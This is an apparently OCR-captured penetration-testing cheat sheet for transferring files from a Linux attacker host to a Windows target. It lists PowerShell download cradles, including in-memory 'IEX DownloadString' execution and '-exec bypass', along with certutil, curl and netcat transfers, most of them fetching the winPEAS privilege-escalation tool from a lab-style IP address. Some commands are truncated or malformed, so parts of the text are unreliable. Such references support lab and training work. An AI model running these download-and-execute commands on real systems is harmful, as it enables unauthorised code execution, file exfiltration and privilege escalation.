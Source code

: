 Linux to Windows

# Linux to Windows

**On linux(On Specific Directory)**
`python3 -m SimpleHTTPServer 8001`

**On Windows**
Powsershell
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('<URL>', '<DESTINATION_FILE>')
powershell.exe "IEX (New-Object System.Net.WebClient).DownloadString('<URL>')"
powershell "wget <URL>"
```
NETCAT
```
nc -lvp 1234 > <OUT_FILE> 
nc <IP> 1234 < <IN_FILE>
```

CURL
```curl <URL> -o <OUT_FILE>```

```bash
powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.10:8001/winPEASany.exe','win.exe')
powershell "wget http://10.10.14.10:8001/winPEASany.exe"
curl

powershell "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.10:8001/winPEASany.exe')"

powershell -exec bypass -Command "& {iex((New-Object System.Net.WebClient).DownloadFile('http://10.10.14.10:8001/winPEASany.exe','C:/win.exe'));}"

certutil -urlcache -f http://10.10.14.10:8001/winPEASany.exe
powershell -c "Invoke-WebRequest -Uri http://10.10.14.10:8001/winPEASany.exe"
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.10:8001/winPEASany.exe')"

powershell -Command ((new-object System.Net.WebClient).Downloadfile('http://10.10.14.10:8001/winPEASany.exe

powershell Invoke-WebRequest -Uri http://10.10.14.10:8001/winPEASany.exe -OutFile c:\Users\Public\Documents\winPEASany.exe

```